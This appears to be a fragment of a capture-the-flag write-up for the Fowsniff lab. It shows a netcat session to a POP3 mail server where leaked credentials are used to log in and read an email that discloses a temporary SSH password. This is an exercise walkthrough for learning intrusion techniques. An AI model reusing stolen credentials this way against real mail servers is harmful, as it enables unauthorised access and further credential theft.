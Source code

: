 ### commands

**nc 10.10.193.216 110**

**USER seina**

**PASS scoobydoo2**

**LIST**

```jsx
┌──(neo㉿neo)-[~]
└─$ nc 10.10.36.0 110     
+OK Welcome to the Fowsniff Corporate Mail Server!
seina
-ERR Unknown command.
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
LIST
+OK 2 messages:
1 1622
2 1280
.
RETR 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.
```